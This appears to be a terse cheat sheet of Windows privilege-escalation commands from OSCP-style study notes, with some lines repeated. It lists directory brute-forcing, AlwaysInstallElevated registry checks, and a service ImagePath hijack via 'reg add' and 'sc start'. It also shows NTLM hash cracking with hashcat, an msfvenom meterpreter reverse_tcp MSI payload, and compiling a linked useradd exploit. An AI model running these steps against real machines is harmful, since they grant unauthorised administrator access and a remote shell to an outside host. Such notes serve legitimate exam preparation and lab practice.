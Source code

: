 

-gobuster dir -u http://<ip>:80 -w <wordlist>  
 
-accesschk64.exe -wvu "<file location>"  
Registry PrivEsc-AlwaysInstallElevated  
reg query HKLM\Software\Policies\Microsoft\Windows\Installer  
reg query HKCU\Software\Policies\Microsoft\Windows\Installer  
msiexec /quiet /qn /i <msi location>
Get-Acl-Path hklm\System\CurrentControlSet\Services\regsvc | fl ~ (NT Authority\Interactive means user has "FullControl" over key)
reg add hklm\System\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d <malicious_filename> /f
sc start regsvc

-hashcat -m 1000 <hash> <wordlist>

msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f msi -o <filename>.msi
 
x86_64-w64-mingw32-gcc <filename>.c -o <filename>.exe
 
 #### Service Escalation
Get-Acl-Path hklm\System\CurrentControlSet\Services\regsvc | fl ~ (NT Authority\Interactive means user has "FullControl" over key)  
Download useradd.c to kali then compile[https://github.com/codingo/OSCP-2/blob/master/Windows/useradd.c](https://github.com/codingo/OSCP-2/blob/master/Windows/useradd.c)  
x86_64-w64-mingw32-gcc useradd.c -o mycode.exe  
reg add hklm\System\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\mycode.exe /f  
